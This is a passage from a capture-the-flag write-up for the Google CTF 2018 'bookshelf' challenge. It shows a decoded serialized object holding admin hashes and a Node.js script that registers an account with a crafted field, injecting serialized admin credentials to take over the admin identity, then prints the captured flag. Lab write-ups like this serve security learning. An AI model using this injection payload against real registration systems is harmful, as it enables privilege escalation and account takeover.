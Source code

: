 What does it look like after decoding?

```javascript  
// ENCODED_PAYLOAD AFTER DECODING  
{ name: 'admin',  
 age: 20,  
 desc: 13,  
 'zzzz½½½½½': '\u0001\u00bb\u0000\u0000\u0000',  
 id:  
  '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918',  
 password:  
  '65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',  
 pl:  
'\u0000\u0000\b\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u0000deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
}  
```

We're IN! now i just have to register with that payload.

```javascript  
// Requires NodeJs  
// and `npm install axios`  
const axios = require('axios');  
const querystring = require('querystring');

axios({  
   method: 'post',  
   url: `https://books.web.ctfcompetition.com/user/register`,  
   headers: {  
       referer: 'https://books.web.ctfcompetition.com/user/register',  
       'Content-Type': 'application/x-www-form-urlencoded',  
   },  
   data: querystring.stringify({  
       'name': 'nytr0gen31337',  
       'age': 20,  
       'desc': 13,  
       "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000": "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +  
       "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +  
       "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +  
       "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",  
       'password': 'qwerty',  
   }),  
}).then((response) => {  
   console.log(response.data);  
}).catch((err) => {  
   console.error(err);  
});  
```

login as `nytr0gen31337` and we're finished, go to my books.

```  
CTF{1892b0d8bc93d7e4ca98975f47f8c7d8}  
```

that look like an md5. what's in there?  

Original writeup (https://github.com/nytr0gen/google-ctf-2018-quals-
writeups/tree/master/bookshelf).